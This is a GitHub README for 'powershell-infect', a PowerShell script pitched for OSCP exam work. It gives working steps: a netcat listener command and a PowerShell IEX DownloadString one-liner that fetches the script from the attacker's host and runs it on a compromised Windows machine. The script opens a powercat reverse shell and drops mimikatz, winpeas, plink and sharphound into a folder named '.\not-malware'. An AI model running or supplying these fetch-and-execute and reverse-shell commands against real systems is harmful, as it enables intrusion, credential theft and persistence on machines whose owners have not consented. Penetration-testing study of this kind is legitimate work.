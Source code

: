 # powershell-infect
A powershell script for the OSCP Exam which sets up a windows reverse shell and automates the download of some useful windows post-exploit and privilege escalation tools.


## Usage

1. Change the paths in the script to reflect the locations of the binaries on your attack box


2. setup a netcat listener at port 4200 (or change the port in the script as well as the following command)
```
rlwrap nc -lvnp 4200
```

3. Host the script on a web server. Perhaps using
```
systemctl start apache2
```
and moving the infect.ps1 file to `/var/www/html` if you are on a modern kali system

4. Upon discovery of RCE in a windows system, execute the following command, replacing your attack box's ip with <RHOST>, and the path of the script on your locally hosted web server
```
powershell -c 'IEX (New-Object System.Net.WebClient).DownloadString('http://<RHOST></some/path/infect.ps1>; infect <RHOST>
```


## Features
This script performs the following actions
1. checks architecture to determine which binaries to download
2. downloads powercat to memory
3. downloads the following to disk in a directory called `.\not-malware` (full path determined by the location of the RCE):
    - winpeas
    - mimikatz
    - plink
    - sharphound
4. sends a powercat reverse shell to a local listener at port 4200
